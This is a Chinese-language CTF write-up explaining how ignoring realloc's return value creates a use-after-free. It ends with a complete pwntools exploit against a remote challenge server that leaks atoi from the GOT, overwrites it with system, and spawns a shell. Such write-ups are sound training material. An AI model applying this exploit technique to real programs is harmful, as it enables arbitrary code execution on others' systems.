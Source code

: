 新的知识点：realloc。了解realloc的用途后很容易就可以发现问题了。

- ### realloc
    > 尝试重新调整之前调用 malloc 或 calloc 所分配的 ptr 所指向的内存块的大小。
    - 声明：void *realloc(void *ptr, size_t size)
    - 参数
        > ptr -- 指针指向一个要重新分配内存的内存块，该内存块之前是通过调用 malloc、calloc 或 realloc 进行分配内存的。如果为空指针，则会分配一个新的内存块，且函数返回一个指向它的指针。<br>size -- 内存块的新的大小，以字节为单位。如果大小为 0，且 ptr 指向一个已存在的内存块，则 ptr 所指向的内存块会被释放，并返回一个空指针。
    - 返回值：返回一个指针 ，指向重新分配大小的内存。如果请求失败，则返回 NULL。

所以这个参数是有返回值的，可是程序中并没有接收返回值再设置的操作。realloc有以下情况。

1. 如果当前内存段后面有需要的内存空间，则直接扩展这段内存空间，realloc()将返回原指针。
2. 如果当前内存段后面的空闲字节不够，那么就使用堆中的第一个能够满足这一要求的内存块，将目前的数据复制到新的位置，并将原来的数据块释放掉，返回新的内存块位置。
3. 如果申请失败，将返回NULL，此时，原来的指针仍然有效。

注意：如果调用成功，不管当前内存段后面的空闲空间是否满足要求，都会释放掉原来的指针，重新返回一个指针，虽然返回的指针有可能和原来的指针一样，即不能再次释放掉原来的指针。

重点在第二条。如果没有连续的空闲段，那么会分配一个新的内存块，并将之前的释放掉。这个被释放的指针也是要置null的，但是这里没有。uaf在意料之外的地方出现了。先把exp放出来慢慢研究。

```python
from pwn import *
r = remote("61.147.171.105",62622)
atoi_got =134525000
def add1(index,size,content):
    r.sendlineafter('your choice>>','1')
    r.sendlineafter('name:',str(index))
    r.sendlineafter('price:','10')
    r.sendlineafter('descrip_size:',str(size))
    r.sendlineafter('description:',content)
def del1(index):
    r.sendlineafter('your choice>>','2')
    r.sendlineafter('name:',str(index))
def list1():
    r.sendlineafter('your choice>>','3')
def edit1(index,size,content):
    r.sendlineafter('your choice>>','5')
    r.sendlineafter('name:',str(index))
    r.sendlineafter('descrip_size:',str(size))
    r.sendlineafter('description:',content)
add1(0,0x80,'a'*0x10)
add1(1,0x20,'b'*0x10)
edit1(0,0x90,'')
add1(2,0x20,'d'*0x10)
payload = b'2'.ljust(16,b'\x00') + p32(20) + p32(0x20) + p32(atoi_got)
edit1(0,0x80,payload)
list1()
r.recvuntil('2: price.20, des.')
atoi_addr = u32(r.recvuntil(b'\n').split(b'\n')[0].ljust(4,b'\x00'))
libc_base = atoi_addr - 184400
system_addr = libc_base + 239936
edit1(2,0x20,p32(system_addr))
r.sendafter('your choice>>','/bin/sh\x00')
r.interactive()
```
